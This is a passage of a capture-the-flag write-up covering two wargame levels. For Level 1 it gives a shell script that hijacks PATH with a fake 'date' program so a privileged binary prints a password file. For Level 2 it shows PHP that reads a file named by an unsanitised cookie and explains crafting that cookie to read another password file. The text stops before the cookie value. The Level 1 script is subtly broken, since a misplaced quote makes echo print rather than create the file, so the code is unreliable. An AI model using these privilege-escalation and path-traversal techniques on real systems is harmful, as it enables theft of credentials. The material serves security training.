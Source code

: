 It's clear that if we manage to change the variable ```date``` to some controlled exploit (such as ```cat /home/level01/.password```) we get the program to print the password.

Third, ```system``` outputs the date using a **relative path** for the **PATH**. We just need to change that to the directory where we keep our exploit (*e.g.*, ```pwd```) to have the system *forget* about the original date function.

 The final script that leads to the next level's password looks like this:

```
#!/bin/sh
cd /tmp
echo '/bin/cat /home/level01/.password > date'
chmod +x date
export PATH=`pwd`:$PATH
/levels/level01/level01
```

---
## Level 2: Client's Cookies

This level is about finding a vulnerability in a PHP script that greets the user with her/his saved data.

The program implements this functionality by setting a cookie that saves the user's username and age. In future visits to the page, the program is then able to print *You’re NAME, and your age is AGE*.

Inspecting closely the code we see that the client's cookie is read without sanitizing its content:

```
<?php
 $out = '';
 if (!isset($_COOKIE['user_details'])) {
 setcookie('user_details', $filename);
 }
 else {
 $out = file_get_contents('/tmp/level02/'.$_COOKIE['user_details']);
 }
?>
```
And then the results of this read is printed:
```
<html>
 <p><?php echo $out ?></p>
</html>
```

An obvious way to exploit this vulnerability is by building our own [request](http://www.w3.org/Protocols/rfc2616/rfc2616-sec5.html) that makes the program read the password at */home/level02/.password*.

The cookie is set in the client side so we have lots of freedom to exploit it. For instance, we could use [Burp Suite](http://portswigger.net/burp/) to intercept the request and add the crafted cookie header. We could also use [Chrome Webinspector](https://chrome.google.com/webstore/detail/web-inspector/enibedkmbpadhfofcgjcphipflcbpelf?hl=en) to copy the [Authorization header](http://en.wikipedia.org/wiki/Basic_access_authentication) for the same purpose. The Cookie header would look like:

